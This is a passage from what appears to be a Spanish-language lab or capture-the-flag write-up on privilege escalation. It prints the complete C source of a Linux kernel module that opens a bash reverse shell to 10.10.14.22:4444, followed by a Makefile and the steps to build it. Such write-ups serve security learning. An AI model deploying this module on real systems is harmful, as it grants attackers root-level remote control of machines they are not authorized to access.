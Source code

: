 >En este caso tenemos que crearnos el siguiente archivo con nuestra ip y puerto para intentar cargar un modulo kernel que nos entable una reverse shell

![](Pasted%20image%2020221204185028.png)

```c
#include <linux/kmod.h>
#include <linux/module.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.22/4444 0>&1", NULL};

static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL};

static int __init reverse_shell_init(void) {

	return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {

	printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

>Y tambien un makefile con las siguientes instrucciones:

![](Pasted%20image%2020221204185056.png)

```rb
obj-m +=reverse-shell.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

>Una vez con estos dos

![](Pasted%20image%2020221204185116.png)

>Ejecutamos el comando make

![](Pasted%20image%2020221204185128.png)

>Nos ponemos en escucha
